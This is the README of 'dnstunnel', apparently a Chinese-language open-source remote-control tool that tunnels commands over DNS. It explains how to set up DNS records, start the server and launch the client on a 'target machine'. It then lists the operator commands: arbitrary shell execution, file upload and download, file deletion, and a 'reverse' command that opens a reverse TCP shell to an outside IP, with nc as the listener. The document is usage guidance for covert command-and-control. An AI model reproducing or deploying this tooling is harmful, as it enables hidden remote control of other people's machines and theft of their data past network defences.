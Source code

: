 # dnstunnel
一款多会话的二进制DNS隧道远控，一个服务端可以连接多个客户端（暂未做充分测试，欢迎提issue）。
DNS通道传输能力非常有限，速率比较低，传输大量的字节需要很长时间。
# 编译
依赖zlib  
```
./build.sh
```
编译debug版本  
```
./build.sh debug
```
# 域名配置
使用者需要在域名服务做如下配置(以gandi.net为例):  
添加一条A记录: 
```
ns1 10800 IN A 55.55.55.55
```
再添加一条NS记录: 
```
1 1800 IN NS ns1.test.website.
```
# 使用说明
按照以上添加后, 在55.55.55.55上启动NDNS_server
```
./NDNS_server
```
在目标机带参数启动NDNS_client
```
./NDNS_client .1.test.website
```
# 用户界面
支持如下命令
```
session <list|clientid>
getuid
upload <local> <remote>
download <remote> <local>
bash <shell cmd>
move <src> <dst>
mkdir <dir>
rmdir <dir>
rename <old> <new>
list
rm <file>
cd <dir>
pwd
hostip
reverse <ip> <port>
Session[29727]>>
```
## session
```
session list
```
列出当前所有会话
```
session clientid
```
切换到对应会话  
## getuid  
```
getuid
```
获取当前远程会话的用户ID  
## upload
```
upload aaa bbb
```
将本地文件aaa上传到远程会话机器bbb，限制文件aaa压缩后要小于430字节  
## download
```
download aaa bbb
```
将远程文件aaa下载到本地为bbb，下载速率大概20-30字节/秒，所以千万不要下载大文件，否则耗时超级长  
## bash
```
bash which python
```
可执行任意shell命令，返回执行结果，注意不要执行需要交互的命令  
## move
```
move <src> <dst>
```
和mv功能一致，暂未实现，可能用处很少  
## mkdir
```
mkdir aaa
```
在远端创建文件夹aaa  
## rmdir  
删除远端文件夹  
## rename  
重命令文件  
## list
```
list
```
在远端程序当前目录执行ls -lrt并返回结果  
## rm  
删除远端文件  
## cd  
切换远端程序当前目录  
## pwd  
获取远端程序当前目录  
## hostip  
获取远端机器的出口ip和主机名
## reverse
反弹TCP shell，服务端使用nc -lvnp 56789接收
```
reverse 112.55.4.22 56789
```
# systemd-resolve占用53端口的解决方法
以ubuntu为例，编辑
```
/etc/systemd/resolved.conf
```
按下面修改
```
[Resolve]
DNS=8.8.8.8  #取消注释，增加dns
#FallbackDNS=
#Domains=
#LLMNR=no
#MulticastDNS=no
#DNSSEC=no
#Cache=yes
DNSStubListener=no  #取消注释，把yes改为no
```
重启服务
```
systemctl restart systemd-resolved
```